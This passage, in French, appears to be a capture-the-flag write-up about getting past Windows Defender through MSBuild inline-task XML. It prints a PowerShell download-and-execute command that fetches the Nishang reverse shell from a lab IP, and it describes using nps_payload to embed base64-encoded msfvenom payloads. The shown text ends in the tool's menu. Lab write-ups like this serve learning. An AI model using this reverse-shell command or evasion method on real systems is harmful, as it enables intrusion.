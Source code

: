 Cette fois c'est *Windows Defender* qui fait des siennes...  

Une solution est de prendre un template XML qui ne contient pas de shellcodes mais va simplement exécuter du code Powerwhell. On peut se baser [sur celui-ci](https://github.com/3gstudent/msbuild-inline-task/blob/master/executes%20PowerShellCommands.xml) qui ne fonctionnera pas tel quel dans notre interface web (car elle ne retransférera pas les commandes saisies vers le process) mais on peut l'éditer simplement pour retirer la boucle dans *Execute()* et mettre à la ligne suivante pour obtenir [notre reverse shell Nishang](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) :  

```plain
RunPSCommand("IEX (New-Object System.Net.WebClient).downloadString('http://10.10.13.82/Invoke-PowerShellTcp.ps1')");
```

Avec le shell ainsi obtenu on peut charger d'autres scripts PowerShell bien connus (*Sherlock*, *PowerUp*...)  

Durant l'exploration du système j'ai croisé un bon gros troll des familles placé par le créateur de la machine :  

```plain
PS C:\> Get-UnattendedInstallFile

UnattendPath
------------
C:\Windows\Panther\Unattend.xml

PS C:\> type C:\Windows\Panther\Unattend.xml
Try Harder! ( =
```

Hack The Planet
---------------

Ok c'est bien mais profiter de tous les modules de *Metasploit* c'est mieux. Je me suis penché sur d'autres solutions pour bypasser *Defender* et je suis tombé sur [un très bon article de n00py](https://www.n00py.io/2018/06/executing-meterpreter-in-memory-on-windows-10-and-bypassing-antivirus-part-2/), en particulier la partie faisant référence au fork de *nps\_payload* par *Franci Šacer*.  

L'avantage de ce fork c'est l'option 2 qui prend le code C# généré par *msfvenom* pour l'encoder en base64 et le placer dans le fichier XML.  

Lors de l'appel par MSBuild la chaine base64 est décodée, le code C# compilé puis exécuté à la volée. C'est beau !  

```plain
$ python nps_payload.py

                                     (            (
                              ) (    )\        )  )\ )
  (    `  )  (       `  )  ( /( )\ )((_)(   ( /( (()/(
  )\ ) /(/(  )\      /(/(  )(_)|()/( _  )\  )(_)) ((_)
 _(_/(((_)_\((_)    ((_)_\((_)_ )(_)) |((_)((_)_  _| |
| ' \)) '_ \|_-<    | '_ \) _` | || | / _ \/ _` / _` |
|_||_|| .__//__/____| .__/\__,_|\_, |_\___/\__,_\__,_|
      |_|     |_____|_|         |__/

                       v1.04

    (1) Generate msbuild/nps/msf payload
    (2) Generate msbuild/nps/msf CSharp payload
    (3) Generate msbuild/nps/msf HTA payload
    (99)    Quit

Select a task: 2

Payload Selection:

```